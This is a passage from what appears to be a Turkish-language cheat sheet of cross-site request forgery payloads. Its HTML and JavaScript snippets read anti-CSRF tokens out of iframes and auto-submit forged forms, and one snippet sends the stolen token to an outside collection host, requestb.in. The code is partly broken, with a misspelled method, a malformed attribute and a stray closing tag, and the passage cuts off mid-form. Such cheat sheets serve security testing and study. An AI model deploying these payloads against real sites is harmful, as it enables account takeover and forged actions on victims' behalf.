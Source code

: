 ```html
function read() {
var name = "admin2"
var token =
document.getElementById("iframe").contentDocument.forms[0].token.value
document.writeln(
'<form width="0" height="0" method="post" action="http://www.yoursebsite.com/check.php"  enctype="multipart/form-data">'
)
document.writeln(
'<input id="username" type="text" name="username" value="' +
name +
'" /><br />'
)
document.writeln(
'<input id="token" type="hidden" name="token" value="' + token + '" />'
)
document.writeln(
'<input type="submit" name="submit" value="Submit" /><br/>'
)
document.writeln("</form>")
document.forms[0].submit.click()
}
</script>
```
### **Token'ı çal ve 2 iframe kullanarak gönder**
```html
<script>
var token;
function readframe1(){
token = frame1.document.getElementById("profile").token.value;
document.getElementById("bypass").token.value = token
loadframe2();
}
function loadframe2(){
var test = document.getElementbyId("frame2");
test.src = "http://requestb.in/1g6asbg1?token="+token;
}
</script>

<iframe id="frame1" name="frame1" src="http://google.com?param=VALUE" onload="readframe1()"
sandbox="allow-same-origin allow-scripts allow-forms allow-popups allow-top-navigation"
height="600" width="800"></iframe>

<iframe id="frame2" name="frame2"
sandbox="allow-same-origin allow-scripts allow-forms allow-popups allow-top-navigation"
height="600" width="800"></iframe>
<body onload="document.forms[0].submit()">
<form id="bypass" name"bypass" method="POST" target="frame2" action="http://google.com?param=VALUE" enctype="multipart/form-data">
<input type="text" name="username" value="z">
<input type="checkbox" name="status" checked="">
<input id="token" type="hidden" name="token" value="0000" />
<button type="submit">Submit</button>
</form>
```
### **POSTAjax ile CSRF token'ını çal ve bir form ile post gönder**
```html
<body onload="getData()">
<form
id="form"
action="http://google.com?param=VALUE"
```